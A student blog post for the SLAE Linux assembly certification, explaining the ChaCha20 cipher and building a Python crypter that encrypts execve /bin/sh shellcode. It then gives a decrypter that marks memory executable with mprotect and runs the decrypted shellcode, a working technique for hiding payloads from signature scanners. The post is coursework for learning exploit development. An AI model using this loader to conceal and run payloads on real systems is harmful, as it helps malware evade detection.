


# SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 7
For the seventh assignment I need to solve the following tasks:
* Create a custom crypter like the one show in the "crypters" video 
* Free to use any existing encryption schema
* Can use any programming language


___

</br>

So first I wanted to search for an encryption schema which I can use. I thought that the default AES might be a little bit boring so I searched for other encryption algorithms. Because there are no more requirements we can use any programming language so I chose Python. Then I took a look in the available ciphers from the PyCryptodome library. There I found additional to AES some block ciphers but they are only there because of backward compatibility. So I took a look in the stream cyphers and found ChaCha20 which I've never heard before and it sounds interesting.

## ChaCha20 introduction
I took some time to research ([reference](https://en.wikipedia.org/wiki/Salsa20#ChaCha_variant)) how this cypher works so let me explain it shortly:
First ChaCha20 is a stream cipher so we have to generate a keystream which we can XOR to the plaintext and get the ciphertext like c = m + k (c =cypher, m = plaintext, k = keystream) </br>
So the question in stream ciphers is how to generate the keystream. First there is a 4x4 array with each 32-bit words which which is filled like the following:

|           |           |           |           |
|:-----------:|:-----------:|:-----------:|:-----------:|
| "expa"    |   "nd 3"	|   "2-by"	|   "te k"  |
| Key	    |   Key	    |   Key	    |   Key     |
| Key	    |   Key	    |   Key	    |   Key     |
| Counter	|   Nonce   |	Nonce   |	Nonce   |

In the first row you can see that it's filled with a 128 bit constant. Then you see the 256 bit key which will be used as input for the function. In the last row you see a 32 bit counter for this cipher and a 96 bit nonce.

You can see how the ChaCha20 function works in the roundfunction in the following:


So now we have to explain what a,b,c and d is and connect it to the first table.
To every entry in the table there can be defined a position which is defined like the following:

|           |           |           |           |
|:-----------:|:-----------:|:-----------:|:-----------:|
| 0    |   1	|   2	|   3  |
| 4    |   5	|   6	|   7  |
| 8    |   9	|   10	|   11  |
| 12    |   13	|   14	|   15  |

Now we can call the round function from the picture with a,b,c,d with the following positions:

``` c
// Odd round
 QR(0, 4,  8, 12)	// 1st column
 QR(1, 5,  9, 13)	// 2nd column
 QR(2, 6, 10, 14)	// 3rd column
 QR(3, 7, 11, 15)	// 4th column
 // Even round
 QR(0, 5, 10, 15)	// diagonal 1 (main diagonal)
 QR(1, 6, 11, 12)	// diagonal 2
 QR(2, 7,  8, 13)	// diagonal 3
 QR(3, 4,  9, 14)	// diagonal 4
```
We have 20 rounds so these instructions will be called 10 times and in the end it will be combined to the final array which will be our 512 bit keystream

``` c++
#define ROTL(a,b) (((a) << (b)) | ((a) >> (32 - (b))))
#define QR(a, b, c, d) (			\
	a += b,  d ^= a,  d = ROTL(d,16),	\
	c += d,  b ^= c,  b = ROTL(b,12),	\
	a += b,  d ^= a,  d = ROTL(d, 8),	\
	c += d,  b ^= c,  b = ROTL(b, 7))
#define ROUNDS 20
 
void chacha_block(uint32_t out[16], uint32_t const in[16])
{
	int i;
	uint32_t x[16];

	for (i = 0; i < 16; ++i)	
		x[i] = in[i];
	// 10 loops × 2 rounds/loop = 20 rounds
	for (i = 0; i < ROUNDS; i += 2) {
		// Odd round
		QR(x[0], x[4], x[ 8], x[12]); // column 0
		QR(x[1], x[5], x[ 9], x[13]); // column 1
		QR(x[2], x[6], x[10], x[14]); // column 2
		QR(x[3], x[7], x[11], x[15]); // column 3
		// Even round
		QR(x[0], x[5], x[10], x[15]); // diagonal 1 (main diagonal)
		QR(x[1], x[6], x[11], x[12]); // diagonal 2
		QR(x[2], x[7], x[ 8], x[13]); // diagonal 3
		QR(x[3], x[4], x[ 9], x[14]); // diagonal 4
	}
	for (i = 0; i < 16; ++i)
		out[i] = x[i] + in[i];
}
```

Also I found some interesting facts. Because of the simple XOR operations this cypher is really fast on x86 architecture compared to slow and 'complex' AES operations. Also there were proposals to use this cypher in IKE and IPSEC and in Wireguard VPN system this ChaCha20 is also used.

## ChaCha20 cryptor
For the python implementation we can use the pycryptodome library which has also some [example usage.](https://www.pycryptodome.org/en/latest/src/cipher/chacha20.html)

So the encrypter part is realy easy. First define the shellcode. Then we genearte a random key and nonce whith an option to set it hardcoded in the application. After that we see the encryption of the shellcode and then I used a simple formater to format the output in the shellcode style. At the end all the data will be printed to the console.

``` python
#!/usr/bin/python3
from Crypto.Cipher import ChaCha20
from Crypto.Random import get_random_bytes

# setting data
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'

key = get_random_bytes(32)
nonce = get_random_bytes(12)

# manually set key and nonce
#key = bytearray.fromhex("ebfe3a562330ee604a93be7eb164790e6f04c1e59f364b4c25a4c7f5b85a425c")
#nonce = get_random_bytes("33c4baf659808e9174804ae6")

# encrypt
cipher = ChaCha20.new(key=key, nonce = nonce)
encryptedShell = cipher.encrypt(shellcode)

# format in shellcode format
encryptedShellOutput = ''.join(f'\\x{byte:02x}'for byte in encryptedShell)

# print data
print("EncryptedShellcode: " + encryptedShellOutput)
print("Key: " + key.hex())
print("Nonce: " + nonce.hex())
```

We can run it which looks like this:




On the decrypter the first part is also quite simple nearly the same as the encrypter. First we specify the encrypted Shellcode and the used key and nonce. After that we decrypt the cypher with the specified key and nonce. Then we just format the decrypted shellcode and print it to the console. For the execution part of the shellcode I had to search a little bit but then I found on [stackoverflow](https://stackoverflow.com/questions/19326409/python-ctype-segmentation-fault) how to execute shellcode in Python 3 from where I copied the code in my script.

``` python
#!/usr/bin/python3
from Crypto.Cipher import ChaCha20
import ctypes

# setting data
encryptedShell = b'\xf9\x60\x94\xb7\x68\xb8\xe8\x8b\xf5\x88\xf7\x52\x8c\xf0\xad\x04\x2b\x6f\x69\x50\x81\x94\xd2\x36\x75'
key = bytearray.fromhex("a2ffacb58c5457e09915b870ca18af0d51414021cabcd2d46565efc2d757fd31")
nonce = bytearray.fromhex("b79267fb237543ca8e797968")

# decrypt
cipher = ChaCha20.new(key=key, nonce=nonce)
decryptedShell = cipher.decrypt(encryptedShell)

# format in shellcode format
decyptedShellOutput = ''.join(f'\\x{byte:02x}'for byte in decryptedShell)

print("The encrypted shellcode is " + decyptedShellOutput + " is now executed")


# Exec Shellcode
shellcode = ctypes.create_string_buffer(decryptedShell)
function = ctypes.cast(shellcode, ctypes.CFUNCTYPE(None))

addr = ctypes.cast(function, ctypes.c_void_p).value
libc = ctypes.CDLL('libc.so.6')
pagesize = libc.getpagesize()
addr_page = (addr // pagesize) * pagesize
for page_start in range(addr_page, addr + len(decryptedShell), pagesize):
    assert libc.mprotect(page_start, pagesize, 0x7) == 0

function()
```

When we execute the decrypter with the encrypted shellcode and the key and nonce which will successfully result in a shell.


